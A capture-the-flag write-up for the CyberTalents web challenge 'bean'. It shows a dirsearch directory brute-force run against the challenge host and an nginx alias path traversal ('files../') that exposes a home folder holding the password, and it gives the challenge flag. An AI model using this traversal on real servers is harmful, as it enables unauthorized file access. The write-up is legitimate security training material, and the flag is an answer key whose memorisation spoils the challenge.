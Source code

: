# CyberTalents
## Web Security

### Challenge Name:
 [*bean*](https://cybertalents.com/challenges/web/bean)
 
### Challenge Description
Come back home Mr Bean .

Link: [http://52.28.216.196/bean/](http://52.28.216.196/bean/)

### Answer
* Use Dirsearch tool to bruteforce directory of 'http://52.28.216.196/bean/' 
```bash
python3 dirsearch.py -u http://52.28.216.196/bean/
[07:27:39] Starting: 
[07:27:42] 200 -  404B  - /bean/%3f/
[07:28:39] 301 -  185B  - /bean/files  ->  http://52.28.216.196/files/
[07:28:39] 200 -    9KB - /bean/files/
[07:28:42] 200 -  404B  - /bean/index.html
```
* Navigate to 'http://52.28.216.196/bean/files/' it opens many files
* If we append '..' at the end of any directory name we can successfully jump to the upper level directory
* Navegate to 'http://52.28.216.196/bean/files../'
* Enter home folder
* You got the password!!


### The Flag
 > FLAG{Nginx_nOt_aLWays_sEcUre_bY_The_waY}
